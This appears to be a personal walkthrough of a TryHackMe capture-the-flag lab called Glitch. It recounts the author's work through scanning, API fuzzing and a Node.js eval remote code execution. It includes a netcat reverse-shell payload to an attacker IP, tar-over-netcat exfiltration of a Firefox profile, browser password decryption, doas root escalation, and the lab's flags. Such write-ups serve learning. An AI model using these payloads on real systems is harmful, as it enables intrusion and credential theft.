 
### Nmap

```
─[glack@parrot]─[~/Desktop/pentestmoneky_php_reverse_shell]
└──╼ $nmap -sV -sT -A 10.10.88.206


PORT   STATE  SERVICE VERSION
80/tcp open http
```


### HTTP

- it takes some time to load 
- Javascript contains 
```js

      function getAccess() {
        fetch('/api/access')
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
    
```

- On accessing `http://10.10.88.206/api/access`, we get `"dGhpc19pc19ub3RfcmVhbA=="`
```
┌─[✗]─[glack@parrot]─[~/Desktop/THM/colddbox]
└──╼ $echo "dGhpc19pc19ub3RfcmVhbA==" | base64 -d
this_is_not_real
```


- Ferox gives this 
```
─[glack@parrot]─[~/Desktop/THM/colddbox]
└──╼ $feroxbuster -u http://10.10.88.206/ -w /usr/share/wordlists/small.txt -n -x html,php


http://10.10.88.206/secret
```

- on chaing your `cookie:value` to the one which we find above we get to view the cntents of the web page
- Intercepted the request on burp and removed this head `If-None-Match: W/"1ce-/Vi8p4LWVNPsMVehHw0bmet19c0"` then we can see the response of `HTTP 200`
- Tried some random things including `

```
─[✗]─[glack@parrot]─[~/Desktop/THM/glitch]
└──╼ $stegcracker glitch.jpg /usr/share/wordlists/rockyou.txt
```

but found nothing so now went for the writeup

- so the hint was in `/api/items`, i did try that but maybe missed this. 
```
curl -X POST http://glitch.local/api/items
{"message":"there_is_a_glitch_in_the_matrix"}% 

```

- writeup used this command 
```
wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/api/objects.txt -X POST --hc 404,400 http://glitch.local/api/items\?FUZZ\=test
```

so we have to fuzz a parameter name using POST method so lets do that using ffuf

- i fine tuned my ffuf command

```
┌─[✗]─[glack@parrot]─[~/Desktop/THM/glitch]
└──╼ $ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/api/objects.txt:FUZZ -u http://10.10.88.206/api/items?FUZZ=test -X POST -H 'Content-Type: application/x-www-form-urlencoded'
```

and got this

```
cmd                     [Status: 500, Size: 1081, Words: 55, Lines: 11, Duration: 146ms]
```

Now as per writeup

```
OK, so this looks like a `nodejs` application.... Looking at `eval (eval at router.post` it is trying to pass our argument to `eval`, Doing a quick _**Insert search verb here**_ for `nodejs eval rce` I end up at [https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44](https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44). 

Using the method from here with our reverse shell urlencoded via burp we get a call back

`POST /api/items?cmd=require("child_process").exec("rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E9%2E0%2E38%204444%20%3E%2Ftmp%2Ff") HTTP/1.1`
```


so we change the value of our `cmd` parameter , didnt really get the node.js vuln but undertood the cahnge in paylaod

- on testing this `POST /api/items?cmd=require("child_process").exec("id")` we get a response of `vulnerability_exploited [object Object]`

now using the payload `%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%37%2e%32%34%2e%31%38%39%20%39%39%39%32%20%3e%2f%74%6d%70%2f%66` i.e. `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.24.189 9992 >/tmp/f`

``require("child_process").exec("id")``

final payload turns out to be 

```
/api/items?cmd=require("child_process").exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.24.189 9992 >/tmp/f")
```

- started a netcat listener and got a shell

```
$ id
uid=1000(user) gid=1000(user) groups=1000(user),30(dip),46(plugdev)

$ cat user.txt
THM{i_don't_know_why}

```

### Priv Esc

- Usefull stuff i found after running linpeas.sh

```
drwxr-xr-x 8 root root 4096 Jan 14  2021 /opt/doas/.git

```


```
Sudo version 1.8.21p2


# CVE-2021-3156: Heap-Based Buffer Overflow in Sudo (Baron Samedit)


[CVE-2019-18634] sudo pwfeedback

```

- with nothing to be found i turned to writeup again
`https://apjone.uk/tryhackme-glitch/`

- there was a firefox directory here , i tried but the firefox was not getting downlaoded even after restarting the machine. will continue this tomorrow


- Used this metthod to transfer data from target machine to my machine

```
mkdir firefox
cd firefox
nc -l 9002 |tar xf -

On the box run:

cd /home/user/.firefox
tar cf - . | nc <ATTACKING_IP> 9002
```

- used this writeup `https://onlineblogzone.com/tryhackme-glitch-writeup/`

- So there is a tool out there that extracts all passwords from the firefox files 

```
There is a tool available to acquire all passwords within the Firefox files. You can find it [here](https://github.com/unode/firefox_decrypt). Run the following commands to get the passwords from Firefox.

git clone https://github.com/unode/firefox_decrypt.git
./firefox_decrypt/firefox_decrypt.py
./firefox_decrypt/firefox_decrypt.py b5w4643p.default-release/

```

- on following the steps i get the desired credentials

```

─[✗]─[glack@parrot]─[~/Desktop/THM/glitch]
└──╼ $./firefox_decrypt/firefox_decrypt.py b5w4643p.default-release


Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void
```

```
v0id@ubuntu:/home/user/.firefox$ id
id
uid=1001(v0id) gid=1001(v0id) groups=1001(v0id)
```


- We are easily able to get root shell using 

```
v0id@ubuntu:/home/user/.firefox$ doas -u root /bin/bash
doas -u root /bin/bash
Password: love_the_void

root@ubuntu:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```


```
cat root.txt
THM{diamonds_break_our_aching_minds}
```
